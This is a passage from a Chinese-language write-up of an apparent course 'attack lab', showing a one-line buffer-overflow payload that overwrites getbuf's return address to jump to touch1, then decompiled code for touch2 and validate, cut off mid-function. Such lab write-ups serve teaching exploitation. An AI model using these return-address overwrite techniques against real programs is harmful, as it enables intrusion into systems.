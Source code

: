 

写出脚本：

```
'a'*0x28+p64(0x4017C0)
```

运行后得到

![1618563524770](76.png)





### touch2

这个题让做的是getbuf函数调用结束后，跳转到touch2执行，同时将Cookie值作为一个无符号整型（占4字节）参数传入touch2。

ida打开

```
void __fastcall __noreturn touch2(unsigned int val)
{
  vlevel = 2;
  if ( val == cookie )
  {
    __printf_chk(1LL, "Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  }
  else
  {
    __printf_chk(1LL, "Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```



进入 validate

```
void __fastcall validate(int level)
{
  if ( is_checker )
  {
    if ( vlevel != level )
    {
      puts("\nMismatched validation levels");
      check_fail();
    }
    if ( check_level != level )
    {
      __printf_chk(1LL, "\nCheck level %d != attack level %d\n");
      check_fail();
```